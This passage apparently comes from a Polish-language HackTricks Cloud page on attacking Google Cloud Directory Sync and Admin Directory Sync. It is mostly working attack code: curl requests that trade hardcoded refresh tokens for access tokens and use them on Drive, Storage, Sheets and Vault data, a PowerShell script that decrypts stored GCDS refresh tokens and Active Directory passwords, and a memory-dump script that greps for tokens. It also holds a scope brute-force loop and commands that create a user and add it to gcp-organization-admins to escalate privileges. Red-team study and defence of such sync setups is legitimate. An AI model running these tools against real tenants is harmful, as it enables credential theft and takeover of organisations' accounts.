https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Niektóre przykłady użycia niektórych z tych zakresów:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** to dodatek do Google Workspace, który zapewnia narzędzia do przechowywania danych, wyszukiwania i eksportu danych Twojej organizacji przechowywanych w usługach Google Workspace, takich jak Gmail, Drive, Chat i inne.

* **Sprawa** w Google Workspace Vault to **pojemnik**, który organizuje i grupuje wszystkie informacje związane z konkretnym przypadkiem, dochodzeniem lub sprawą prawną. Służy jako centralny punkt zarządzania **Zatrzymaniami**, **Wyszukiwaniami** i **Eksportami** dotyczącymi danego zagadnienia.
* **Zatrzymanie** w Google Workspace Vault to **działanie ochronne** stosowane do konkretnych użytkowników lub grup w celu **zapobieżenia usunięciu lub zmianie** ich danych w usługach Google Workspace. Zatrzymania zapewniają, że istotne informacje pozostają nienaruszone i niezmienione przez czas trwania sprawy prawnej lub dochodzenia.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
Więcej [punktów końcowych API w dokumentacji](https://developers.google.com/vault/reference/rest).

</details>

## GCDS - Google Cloud Directory Sync

To narzędzie, które można wykorzystać do **synchronizacji użytkowników i grup z aktywnego katalogu z Twoim Workspace** (a nie odwrotnie w momencie pisania tego tekstu).

Jest to interesujące, ponieważ jest to narzędzie, które będzie wymagać **poświadczeń superużytkownika Workspace i uprzywilejowanego użytkownika AD**. Dlatego może być możliwe znalezienie go na serwerze domeny, który synchronizowałby użytkowników od czasu do czasu.

{% hint style="info" %}
Aby przeprowadzić **MitM** na binarnym pliku **`config-manager.exe`**, wystarczy dodać następującą linię w pliku `config.manager.vmoptions`: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
Zauważ, że [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) jest w stanie wykryć **GCDS**, uzyskać informacje o konfiguracji i **nawet hasła oraz zaszyfrowane poświadczenia**.
{% endhint %}

Zauważ również, że GCDS nie synchronizuje haseł z AD do Workspace. Jeśli już, to po prostu generuje losowe hasła dla nowo utworzonych użytkowników w Workspace, jak można zobaczyć na poniższym obrazku:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Tokeny dyskowe i poświadczenia AD

Binarne `config-manager.exe` (główny plik GCDS z GUI) będzie przechowywać skonfigurowane poświadczenia Active Directory, token odświeżania i dostęp domyślnie w **pliku xml** w folderze **`C:\Program Files\Google Cloud Directory Sync`** w pliku o nazwie **`Untitled-1.xml`** domyślnie. Chociaż może być również zapisany w `Dokumentach` użytkownika lub w **dowolnym innym folderze**.

Ponadto, rejestr **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** wewnątrz klucza **`open.recent`** zawiera ścieżki do wszystkich ostatnio otwartych plików konfiguracyjnych (xml). Tak więc możliwe jest **sprawdzenie tego, aby je znaleźć**.

Najciekawszą informacją w pliku byłoby:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Zauważ, że **token** **odświeżania** i **hasło** użytkownika są **szyfrowane** za pomocą **AES CBC** z losowo wygenerowanym kluczem i IV przechowywanym w **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (gdziekolwiek biblioteka **`prefs`** Java przechowuje preferencje) w kluczach ciągów **`/Encryption/Policy/V2.iv`** i **`/Encryption/Policy/V2.key`** przechowywanych w base64.

<details>

<summary>Skrypt Powershell do odszyfrowania tokena odświeżania i hasła</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
Zauważ, że możliwe jest sprawdzenie tych informacji, przeszukując kod java **`DirSync.jar`** z **`C:\Program Files\Google Cloud Directory Sync`**, szukając ciągu `exportkeys` (ponieważ to jest parametr cli, którego oczekuje binarny `upgrade-config.exe`, aby wyeksportować klucze).
{% endhint %}

Zamiast używać skryptu powershell, możliwe jest również użycie binarnego **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** z parametrem `-exportKeys` i uzyskanie **Key** i **IV** z rejestru w formacie hex, a następnie użycie cyberchef z AES/CBC oraz tym kluczem i IV do odszyfrowania informacji.

### GCDS - Zrzut tokenów z pamięci

Podobnie jak w przypadku GCPW, możliwe jest zrzucenie pamięci procesu `config-manager.exe` (to jest nazwa głównego binarnego GCDS z GUI) i będziesz w stanie znaleźć tokeny odświeżania i dostępu (jeśli zostały już wygenerowane).\
Myślę, że można również znaleźć skonfigurowane poświadczenia AD.

<details>

<summary>Zrzut procesów config-manager.exe i wyszukiwanie tokenów</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Generowanie tokenów dostępu z tokenów odświeżających

Używając tokena odświeżającego, możliwe jest generowanie tokenów dostępu przy użyciu tego tokena oraz identyfikatora klienta i tajnego klucza klienta określonych w następującym poleceniu:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Zakresy

{% hint style="info" %}
Zauważ, że nawet posiadając token odświeżający, nie można żądać żadnego zakresu dla tokena dostępu, ponieważ można żądać tylko **zakresów obsługiwanych przez aplikację, w której generujesz token dostępu**.

Ponadto, token odświeżający nie jest ważny w każdej aplikacji.
{% endhint %}

Domyślnie GCSD nie będzie miał dostępu jako użytkownik do każdego możliwego zakresu OAuth, więc używając poniższego skryptu możemy znaleźć zakresy, które można wykorzystać z `refresh_token`, aby wygenerować `access_token`:

<details>

<summary>Skrypt Bash do brute-force zakresów</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

A oto wynik, który otrzymałem w momencie pisania:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Utwórz użytkownika i dodaj go do grupy `gcp-organization-admins`, aby spróbować eskalować uprawnienia w GCP
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'
```
{% hint style="danger" %}
Nie można nadać nowemu użytkownikowi roli Super Admin, ponieważ **token odświeżania nie ma wystarczających zakresów** do nadania wymaganych uprawnień.
{% endhint %}

## Synchronizacja katalogu administratora

Główna różnica między tym sposobem synchronizacji użytkowników z GCDS polega na tym, że GCDS jest realizowane ręcznie za pomocą niektórych binariów, które musisz pobrać i uruchomić, podczas gdy **Synchronizacja katalogu administratora jest bezserwerowa** i zarządzana przez Google w [https://admin.google.com/ac/sync/externaldirectories](https://admin.google.com/ac/sync/externaldirectories).

W momencie pisania tego tekstu ta usługa jest w wersji beta i obsługuje 2 typy synchronizacji: Z **Active Directory** i z **Azure Entra ID:**

* **Active Directory:** Aby to skonfigurować, musisz **dać Google dostęp do swojego środowiska Active Directory**. A ponieważ Google ma dostęp tylko do sieci GCP (za pośrednictwem **łączników VPC**), musisz utworzyć łącznik, a następnie udostępnić swoje AD z tego łącznika, umieszczając je w VM w sieci GCP lub używając Cloud VPN lub Cloud Interconnect. Następnie musisz również dostarczyć **poświadczenia** konta z dostępem do odczytu w katalogu oraz **certyfikat** do kontaktu za pośrednictwem **LDAPS**.
* **Azure Entra ID:** Aby to skonfigurować, wystarczy **zalogować się do Azure za pomocą użytkownika z dostępem do odczytu** w subskrypcji Entra ID w oknie pop-up wyświetlanym przez Google, a Google zachowa token z dostępem do odczytu w Entra ID.

Po poprawnej konfiguracji obie opcje pozwolą na **synchronizację użytkowników i grup z Workspace**, ale nie pozwolą na konfigurowanie użytkowników i grup z Workspace do AD lub EntraID.

Inne opcje, które będą dostępne podczas tej synchronizacji, to:

* Wysłanie e-maila do nowych użytkowników w celu zalogowania się
* Automatyczna zmiana ich adresu e-mail na ten używany przez Workspace. Jeśli więc Workspace używa `@hacktricks.xyz`, a użytkownicy EntraID używają `@carloshacktricks.onmicrosoft.com`, to `@hacktricks.xyz` będzie używane dla użytkowników utworzonych w koncie.
* Wybór **grup zawierających użytkowników**, które będą synchronizowane.
* Wybór **grup** do synchronizacji i utworzenia w Workspace (lub wskazanie synchronizacji wszystkich grup).

### Z AD/EntraID -> Google Workspace (& GCP)

Jeśli uda ci się skompromitować AD lub EntraID, będziesz miał pełną kontrolę nad użytkownikami i grupami, które będą synchronizowane z Google Workspace.\
Jednak zauważ, że **hasła**, które użytkownicy mogą używać w Workspace, **mogą być takie same lub nie**.

#### Atakowanie użytkowników

Gdy synchronizacja następuje, może synchronizować **wszystkich użytkowników z AD lub tylko tych z konkretnego OU** lub tylko **użytkowników będących członkami konkretnych grup w EntraID**. Oznacza to, że aby zaatakować zsynchronizowanego użytkownika (lub utworzyć nowego, który zostanie zsynchronizowany), musisz najpierw ustalić, którzy użytkownicy są synchronizowani.

* Użytkownicy mogą **ponownie używać hasła lub nie z AD lub EntraID**, ale oznacza to, że musisz **skompromitować hasła użytkowników, aby się zalogować**.
* Jeśli masz dostęp do **maili** użytkowników, możesz **zmienić hasło Workspace istniejącego użytkownika**, lub **utworzyć nowego użytkownika**, poczekać, aż zostanie zsynchronizowany i skonfigurować konto.

Gdy uzyskasz dostęp do użytkownika w Workspace, mogą mu być nadane pewne **uprawnienia domyślnie**.

#### Atakowanie grup

Musisz również najpierw ustalić, które grupy są synchronizowane. Chociaż istnieje możliwość, że **WSZYSTKIE** grupy są synchronizowane (ponieważ Workspace na to pozwala).

{% hint style="info" %}
Zauważ, że nawet jeśli grupy i członkostwa są importowane do Workspace, **użytkownicy, którzy nie są synchronizowani w synchronizacji użytkowników, nie zostaną utworzeni** podczas synchronizacji grup, nawet jeśli są członkami którejkolwiek z synchronizowanych grup.
{% endhint %}

Jeśli wiesz, które grupy z Azure mają **przydzielone uprawnienia w Workspace lub GCP**, możesz po prostu dodać skompromitowanego użytkownika (lub nowo utworzonego) do tej grupy i uzyskać te uprawnienia.

Istnieje inna opcja nadużycia istniejących uprzywilejowanych grup w Workspace. Na przykład grupa `gcp-organization-admins@<workspace.email>` zazwyczaj ma wysokie uprawnienia w GCP.

Jeśli synchronizacja z, na przykład, EntraID do Workspace jest **skonfigurowana do zastąpienia domeny** importowanego obiektu **emailem Workspace**, możliwe będzie dla atakującego utworzenie grupy `gcp-organization-admins@<entraid.email>` w EntraID, dodanie użytkownika do tej grupy i czekanie, aż synchronizacja wszystkich grup nastąpi.\
**Użytkownik zostanie dodany do grupy `gcp-organization-admins@<workspace.email>`, eskalując uprawnienia w GCP.**

### Z Google Workspace -> AD/EntraID

Zauważ, że Workspace wymaga poświadczeń z dostępem tylko do odczytu w AD lub EntraID, aby synchronizować użytkowników i grupy. Dlatego nie jest możliwe nadużycie Google Workspace do wprowadzenia jakichkolwiek zmian w AD lub EntraID. Tak więc **to nie jest możliwe** w tym momencie.

Nie wiem również, gdzie Google przechowuje poświadczenia AD lub token EntraID i **nie możesz ich odzyskać, rekonfigurując synchronizację** (nie pojawiają się w formularzu internetowym, musisz je podać ponownie). Jednak z poziomu sieci może być możliwe nadużycie obecnej funkcjonalności do **wyświetlania użytkowników i grup**.

## Referencje

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
